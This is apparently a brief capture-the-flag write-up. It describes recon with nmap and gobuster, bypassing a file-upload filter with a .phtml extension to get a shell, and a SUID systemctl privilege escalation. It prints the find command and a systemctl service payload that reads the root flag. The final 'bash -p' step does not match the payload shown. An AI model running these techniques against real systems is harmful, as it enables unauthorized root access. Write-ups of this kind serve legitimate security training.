







First I run nmap:



then I run gobuster to find subdomains



I go to /internal and it has a file upload after many testing it does not accept php file it accept phtml so I renamed the extinsion to .phtml and uploaded the file





I was setting up a listener and I got a shell!

then **privilege escalation:**

```Less
find / -user root -perm -4000 -exec ls -ldb {} \;
```

/bin/systemctl stands out, at it is used to control and monitor services!



```Less
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
./systemctl link $TF
./systemctl enable --now $TF
```



```Less
bash -p
```

The p flag means we are running it privileged.

